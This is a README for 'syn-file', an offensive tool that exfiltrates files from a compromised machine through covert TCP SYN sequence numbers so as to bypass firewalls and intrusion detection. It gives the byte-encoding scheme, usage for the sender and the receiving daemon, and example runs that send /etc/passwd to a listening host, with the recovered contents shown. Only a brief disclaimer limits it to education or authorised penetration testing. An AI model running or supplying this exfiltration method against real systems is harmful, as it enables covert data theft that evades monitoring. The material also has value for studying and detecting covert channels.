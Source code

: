# syn-file

Exfiltrate data from a compromised target using covert channels.


## Intro
**syn-file** is a software that allows data exfiltration using TCP SYN sequence number packets.
In that way it is possible to bypass firewalls or IDS as no TCP connection is ever opened... similar to TCP SYN scanning.

To be faster exfiltrating data, a useful codification technique is used. Encoding 4 chars in a integer like this:

```seq= buf[0] << 24 | buf[1] << 16 | buf[2] << 8 | buf[3];```

In that manner it is possible to exfiltrate data from a machine running the command **syn-file** to another machine
that is listening on the wire running **syn-daemon**.



##Background

There are some tools to deploy covert channels, mainly using ICMP protocol, padding the content in the payload section...
but that looks quite suspicious and is very easy to spot using a network sniffer, as Wireshark.

However I have not seen any tool to deploy covert channels using TCP sequence numbers, also in **syn-file** the payload is left empty ;-)


##usage / example


###syn-daemon (server)
```
# ./syn-daemon -i iface -s source_ip -f file_for_exfiltrated_data
-i interface
-s source ip
-f file to store exfiltrated data
```

Example:
```
# ./syn-daemon -i eth0 -s 192.168.1.155 -f passwd
using interface: eth0
libcap rule: "src host 192.168.1.155"
#    1 [SYN: 1] [SEQ #: 0x61743a78]
#    2 [SYN: 1] [SEQ #: 0x3a32353a]
#    3 [SYN: 1] [SEQ #: 0x32353a42]
#    4 [SYN: 1] [SEQ #: 0x61746368]
#    5 [SYN: 1] [SEQ #: 0x206a6f62]
#    6 [SYN: 1] [SEQ #: 0x73206461]
#    7 [SYN: 1] [SEQ #: 0x656d6f6e]
#    8 [SYN: 1] [SEQ #: 0x3a2f7661]
#    9 [SYN: 1] [SEQ #: 0x722f7370]
#   10 [SYN: 1] [SEQ #: 0x6f6f6c2f]
...
```

And "passwd" recovered is:
```
# cat passwd 
at:x:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
avahi:x:481:481:User for Avahi:/run/avahi-daemon:/bin/false
avahi-autoipd:x:493:493:User for Avahi IPv4LL:/var/lib/avahi-autoipd:/bin/false
bin:x:1:1:bin:/bin:/bin/bash
colord:x:483:484:user for colord:/var/lib/colord:/sbin/nologin
daemon:x:2:2:Daemon:/sbin:/bin/bash
dnsmasq:x:486:65534:dnsmasq:/var/lib/empty:/bin/false
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
gdm:x:478:477:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
...
```



###syn-file (client / target machine)
```
# ./syn-file -i interface -d dst_ip -f file_to_exfiltrate -p dst_port -P src_port -m MAC_address_server
-i interface
-d destination ip / IP that runs syn-daemon
-f file to exfiltrate
-p destination port
-P source port
-m MAC address server / syn-daemon
```

Example from target machine:
```
# ./syn-file -i eth0 -d 192.168.1.158 -f /etc/passwd -p 8080 -P 8081 -m 00:0C:0A:4a:3b:5c
using interface: eth0
#1	 [Read from file "at:x"] [Encoded SEQ #: 0x61743a78] [Wrote 74 bytes]
#2	 [Read from file ":25:"] [Encoded SEQ #: 0x3a32353a] [Wrote 74 bytes]
#3	 [Read from file "25:B"] [Encoded SEQ #: 0x32353a42] [Wrote 74 bytes]
#4	 [Read from file "atch"] [Encoded SEQ #: 0x61746368] [Wrote 74 bytes]
#5	 [Read from file " job"] [Encoded SEQ #: 0x206a6f62] [Wrote 74 bytes]
#6	 [Read from file "s da"] [Encoded SEQ #: 0x73206461] [Wrote 74 bytes]
#7	 [Read from file "emon"] [Encoded SEQ #: 0x656d6f6e] [Wrote 74 bytes]
#8	 [Read from file ":/va"] [Encoded SEQ #: 0x3a2f7661] [Wrote 74 bytes]
#9	 [Read from file "r/sp"] [Encoded SEQ #: 0x722f7370] [Wrote 74 bytes]
#10	 [Read from file "ool/"] [Encoded SEQ #: 0x6f6f6c2f] [Wrote 74 bytes]
...
```

##Disclaimer
Only use allowed for educational purposes or professionaly during a penetration test given the proper permission.

All rights reserved

(c) 2017 spinfoo

Jacobo Avariento
